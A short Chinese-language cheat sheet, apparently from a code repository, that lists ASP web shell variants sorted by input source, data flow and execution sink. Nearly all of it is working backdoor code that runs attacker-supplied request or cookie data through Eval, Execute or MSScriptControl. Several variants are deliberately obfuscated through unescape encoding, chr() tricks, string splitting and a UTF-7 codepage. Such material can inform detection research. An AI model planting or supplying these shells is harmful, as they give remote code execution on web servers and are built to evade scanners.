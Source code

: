 
# source

#### cookie
```
请求包
GET /1.asp HTTP/1.1
Host: 192.168.66.134
Cookie: response.write(111)'
```

```
<%
eval(""+Request.Cookies)
%>
```

#### 编码
```
<%execute(unescape("eval%20request%28%22aaa%22%29"))%>
```

```
<%Eval(Request(chr(35)))%>
```

#### 语法
```
<%Eval(Request(chr(35))+"")%>
```

# 数据流
#### 文件
1.asp
```
<%
code=Request(1)
%>
```

2.asp
```
<!--#include file="1.asp" -->
<%
response.write(code)
%>
```

访问2.asp?1=response.write(1111)


#### 函数传递
```
<%@LANGUAGE="javascript"%>
<%
param=Request(1)+''
func=eval
func(param)
%>
```

#### 数组
```
<%
x=Request(1)
param = Array(x,"xxx")
eval(param(0))
%>
```


#### 多个<%%>
```
<%code=Request(1)%>

<%
Eval(code+"")
%>
```

# sink

#### 代码执行
Eval、Execute、ExecuteGlobal

#### 组件
2003可以，2008找不到组件
```
<%
set ms = server.CreateObject("MSScriptControl.ScriptControl.1")
ms.Language="VBScript"
ms.AddObject "Response", Response
ms.AddObject "request", request
ms.AddObject "session", session
ms.AddObject "server", server
ms.AddObject "application", application
ms.ExecuteStatement ("ex"&"e"&"cute(request(1))")%>
```

#### utf7编码
```
<%@ codepage=65000%><% response.Charset="936"%>
<%
e+j-v+j-a+j-l(request(1))
%>
```

# 参考
新仙剑之鸣
